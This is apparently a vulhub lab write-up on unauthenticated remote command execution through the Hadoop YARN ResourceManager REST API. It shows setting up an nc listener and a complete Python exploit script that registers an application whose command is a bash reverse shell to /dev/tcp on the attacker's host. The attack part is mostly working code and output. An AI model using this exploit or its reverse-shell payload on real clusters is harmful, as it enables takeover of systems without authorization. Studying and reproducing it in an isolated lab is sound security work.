


# Unauthorized Access Vulnerability in Hadoop YARN Resourcemanager

## Vulnerability Description

The ResourceManager component, responsible for managing and scheduling resources, has an open UI management interface on port 8080/8088, and the attacker can deploy tasks through the REST API without authentication, ultimately able to fully control all machines in the cluster by executing any command.

## Environment Setup

Using vulhub

Access the 8088 port, you can see the Hadoop YARN ResourceManager WebUI interface.

```
[root@localhost ~]# ls /opt/vulhub-master/hadoop/unauthorized-yarn/
docker-compose.yml  exploit.py  README.md

[root@localhost ~]# docker-compose up
```

访问8088端口，可以看到Hadoop [YARN](https://so.csdn.net/so/search?q=YARN\&spm=1001.2101.3001.7020) ResourceManager WebUI界面。



## Vulnerability Exploitation

Start nc

```
[root@localhost ~]# nc -lvp 9999
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
```

Attack script

```
[root@localhost unauthorized-yarn]# cat exploit.py 
#!/usr/bin/env python

import requests

target = 'http://127.0.0.1:8088/'
lhost = '192.168.32.131' # put your local host ip here, and listen at port 9999

url = target + 'ws/v1/cluster/apps/new-application'
resp = requests.post(url)
app_id = resp.json()['application-id']
url = target + 'ws/v1/cluster/apps'
data = {
    'application-id': app_id,
    'application-name': 'get-shell',
    'am-container-spec': {
        'commands': {
            'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
        },
    },
    'application-type': 'YARN',
}
requests.post(url, json=data)
```

Successful attack succeeded

